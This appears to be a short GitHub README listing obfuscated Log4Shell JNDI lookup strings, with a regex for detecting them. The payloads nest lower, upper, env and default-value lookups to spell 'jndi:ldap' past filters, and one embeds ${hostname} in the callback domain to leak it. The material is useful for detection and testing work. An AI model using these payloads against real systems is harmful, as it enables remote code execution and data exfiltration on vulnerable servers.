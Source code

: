 ## Log4j2-Obfucation

Current Log4Shell obfuscation techniques observed or reported (Also works on rmi, dns, ldaps)

# Obfuscation

```

${${lower:j}${lower:n}${lower:d}${lower:i}:${lower:l}${lower:d}${lower:a}${lower:p}://test/a}

${${lower:j}${lower:n}${lower:d}${lower:i}:${lower:l}${lower:d}${lower:a}${lower:p}://${upper:t}est/a} 

${${env:env_name:-j}${env:env_name:-n}${env:env_name:-d}${env:env_name:-i}${env:env_name:-:}${env:env_name:-l}${env:env_name:-d}${env:env_name:-a}${env:env_name:-p}${env:env_name:-:}//test/a} (Also works on rmi, dns, ldaps)

${${::-j}${${::-n}${${::-d}${${::-i}:${::-l}${${::-d}${${::-a}${${::-p}://test/a}

${${::-j}${${::-n}${${::-d}${${::-i}:${::-l}${${::-d}${${::-a}${${::-p}://${hostname}.test/a}

```

# Regex

# Pattern match to capture all of above

```

.*\$\{.{0,20}j.{0,20}n.{0,20}d.{0,20}i.{0,150}:.{0,5}\/.*\}

```
